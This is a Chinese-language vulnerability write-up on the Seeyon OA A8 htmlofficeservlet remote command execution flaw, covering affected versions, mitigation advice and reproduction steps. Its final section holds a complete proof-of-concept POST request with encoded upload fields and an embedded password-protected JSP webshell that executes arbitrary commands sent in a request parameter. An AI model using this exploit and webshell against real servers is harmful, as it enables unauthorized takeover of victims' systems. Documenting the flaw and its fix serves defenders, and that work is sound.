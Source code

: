 致远OA A8 系统远程命令执行漏洞
==============================

一、漏洞简介
------------

该系统的漏洞点在于致远OA-A8系统的Servlet接口暴露，安全过滤处理措施不足，使得用户在无需认证的情况下实现任意文件上传。攻击者利用该漏洞，可在未授权的情况下，远程发送精心构造的网站后门文件，从而获取目标服务器权限，在目标服务器上执行任意代码。

二、漏洞影响
------------

漏洞影响的产品版本包括：

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件V7.1

漏洞处置建议

临时修补方案如下：

1、 配置URL访问控制策略；

2、
在公网部署的致远A8+服务器，通过ACL禁止外网对"/seeyon/htmlofficeservlet"路径的访问；

3、 对OA服务器上的网站后门文件进行及时查杀。

建议使用致远OA-A8系统的信息系统运营者进行自查，发现存在漏洞后，按照以上方案及时修复。
详情请移步CNVD官网查看<https://www.cnvd.org.cn/webinfo/show/5095>

三、复现过程
------------

先访问/seeyon/htmlofficeservlet
![](resource/致远OAA8系统远程命令执行漏洞/media/rId25.png) 出现DBSTEP V3.0 0 21 0 htmoffice operate
err
![](resource/致远OAA8系统远程命令执行漏洞/media/rId26.png) 掏出burp进行抓包替换成poc如下
![](resource/致远OAA8系统远程命令执行漏洞/media/rId27.png) 提交POST请求包，查看回显如下
![](resource/致远OAA8系统远程命令执行漏洞/media/rId28.png)

### 小结

POC：(POST包)

    POST /seeyon/htmlofficeservlet HTTP/1.1
    Content-Length: 1121
    User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
    Host: xxxxxxxxx
    Pragma: no-cache

    DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
    OPTION=S3WYOSWLBSGr
    currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
    CREATEDATE=wUghPB3szB3Xwg66
    RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
    originalFileId=wV66
    originalCreateDate=wUghPB3szB3Xwg66
    FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
    needReadFile=yRWZdAS6
    originalCreateDate=wLSGP4oEzLKAz4=iz=66
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("asasd3344".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7c
